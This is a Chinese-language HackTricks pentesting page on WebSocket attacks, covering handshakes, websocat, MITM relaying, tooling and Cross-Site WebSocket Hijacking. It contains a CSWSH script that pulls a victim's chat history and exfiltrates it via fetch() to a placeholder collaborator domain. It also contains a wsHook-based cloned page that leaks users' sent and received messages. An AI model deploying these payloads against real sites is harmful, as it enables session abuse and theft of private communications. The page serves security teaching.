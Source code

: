 # WebSocket 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 什么是 WebSockets

WebSocket 连接是通过初始的 **HTTP** 握手建立的，并且被设计为**长期存在**，允许在任何时候进行双向消息传递，无需事务系统。这使得 WebSockets 特别适用于需要**低延迟或服务器发起的通信**的应用，比如实时金融数据流。

### 建立 WebSocket 连接

有关建立 WebSocket 连接的详细说明，请访问[**此处**](https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc)。简而言之，WebSocket 连接通常是通过客户端 JavaScript 发起的，如下所示：
```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```
`wss` 协议表示通过 **TLS** 加密的 WebSocket 连接，而 `ws` 表示一个**未加密**的连接。

在建立连接时，浏览器和服务器之间会通过 HTTP 执行握手。握手过程涉及浏览器发送请求，服务器做出响应，如下例所示：

浏览器发送握手请求：
```javascript
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
服务器的握手响应：
```javascript
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```
**WebSocket握手的关键点：**

- `Connection`和`Upgrade`头部信号启动WebSocket握手。
- `Sec-WebSocket-Version`头部指示所需的WebSocket协议版本，通常为`13`。
- 在`Sec-WebSocket-Key`头部中发送一个Base64编码的随机值，确保每次握手都是独一无二的，有助于防止缓存代理出现问题。这个值不是用于身份验证，而是用于确认响应不是由配置错误的服务器或缓存生成的。
- 服务器响应中的`Sec-WebSocket-Accept`头部是`Sec-WebSocket-Key`的哈希值，验证服务器打算打开WebSocket连接的意图。

这些特性确保握手过程安全可靠，为高效的实时通信铺平道路。
```bash
websocat --insecure wss://10.10.10.10:8000 -v
```
或者创建一个websocat服务器：
```bash
websocat -s 0.0.0.0:8000 #Listen in port 8000
```
### 中间人攻击 websocket 连接

如果发现客户端从当前本地网络连接到一个 **HTTP websocket**，你可以尝试进行 [ARP Spoofing 攻击](../generic-methodologies-and-resources/pentesting-network/#arp-spoofing) 来在客户端和服务器之间执行中间人攻击。\
一旦客户端尝试连接到你，你可以使用：
```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```
### Websockets枚举

您可以使用**工具**[**https://github.com/PalindromeLabs/STEWS**](https://github.com/PalindromeLabs/STEWS)**自动发现、指纹识别和搜索websockets中已知的**漏洞。

### Websocket调试工具

- **Burp Suite**支持MitM方式拦截websockets通信，与拦截常规HTTP通信的方式非常相似。
- [**socketsleuth**](https://github.com/snyk/socketsleuth)**Burp Suite扩展**将允许您通过获取**历史记录**、设置**拦截规则**、使用**匹配和替换**规则、使用**Intruder**和**AutoRepeater**更好地管理Burp中的Websocket通信。
- [**WSSiP**](https://github.com/nccgroup/wssip)**：**简称“**WebSocket/Socket.io代理**”，这个用Node.js编写的工具提供了一个用户界面，用于**捕获、拦截、发送自定义**消息，并查看客户端和服务器之间的所有WebSocket和Socket.IO通信。
- [**wsrepl**](https://github.com/doyensec/wsrepl)是一个专为渗透测试设计的**交互式websocket REPL**。它提供了一个界面，用于观察**传入的websocket消息并发送新消息**，并提供了一个易于使用的框架来**自动化**这种通信。&#x20;
- [**https://websocketking.com/**](https://websocketking.com/)是一个用于使用**websockets**与其他网站进行通信的**网站**。
- [**https://hoppscotch.io/realtime/websocket**](https://hoppscotch.io/realtime/websocket)除了其他类型的通信/协议外，它还提供了一个用于使用**websockets**与其他网站进行通信的**网站**。

## Websocket实验室

在[**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course)中，您可以找到一个使用websockets启动web的代码，在[**此文章**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/)中可以找到解释。

## 跨站点WebSocket劫持（CSWSH）

**跨站点WebSocket劫持**，也称为**跨源WebSocket劫持**，被确定为影响WebSocket握手的特定**[跨站点请求伪造（CSRF）](csrf-cross-site-request-forgery.md)**的一种情况。当WebSocket握手仅通过**HTTP cookie**进行身份验证而没有**CSRF令牌**或类似的安全措施时，就会出现此漏洞。

攻击者可以利用这一点，托管一个**恶意网页**，该网页发起与易受攻击应用程序的跨站WebSocket连接。因此，此连接被视为受害者与应用程序会话的一部分，利用会话处理机制中缺乏CSRF保护。

### 简单攻击

请注意，在**建立****websocket**连接时，**cookie**会**发送**到服务器。**服务器**可能会使用它来**关联**每个**特定**的**用户**与其基于发送cookie的**websocket**会话。

然后，例如，如果**websocket** **服务器**在发送包含“**READY**”消息的情况下返回用户的对话**历史记录**，那么通过**简单的XSS**建立连接（**cookie**将被**自动发送**以授权受害者用户），**发送**“**READY**”将能够**检索**对话的**历史记录**。
```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
### 跨域 + 具有不同子域的 Cookie

在这篇博文[https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/)中，攻击者成功在进行 Websocket 通信的域的**子域**中**执行任意 JavaScript**。由于它是一个**子域**，**cookie**被**发送**，并且由于**Websocket 没有正确检查来源**，因此可以与其通信并**从中窃取令牌**。

### 从用户那里窃取数据

复制您想要冒充的 Web 应用程序（例如 .html 文件），并在进行 Websocket 通信的脚本中添加此代码：
```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "client_msg?m="+data, true);
xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
xhttp.send();
return messageEvent;
}
```
现在从[https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook)下载`wsHook.js`文件，并**将其保存在包含网页文件的文件夹中**。\
暴露网页应用程序并让用户连接到它，您将能够通过websocket窃取发送和接收的消息：
```javascript
sudo python3 -m http.server 80
```
## 竞争条件

WebSockets中的竞争条件也是一个问题，[查看此信息以了解更多](race-condition.md#rc-in-websockets)。

## 其他漏洞

由于WebSockets是一种将数据发送到服务器端和客户端的机制，取决于服务器和客户端如何处理信息，WebSockets可以被用来利用其他几种漏洞，如XSS、SQLi或使用来自WebSockets的用户输入的任何其他常见Web漏洞。

## **WebSocket劫持**

这种漏洞可能允许您通过让反向代理认为已建立了WebSocket通信（即使事实并非如此）来**绕过反向代理的限制**。这可能允许攻击者**访问隐藏的端点**。有关更多信息，请查看以下页面：

{% content-ref url="h2c-smuggling.md" %}
[h2c-smuggling.md](h2c-smuggling.md)
{% endcontent-ref %}

## 参考资料

* [https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages)

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)上**关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧**。

</details>
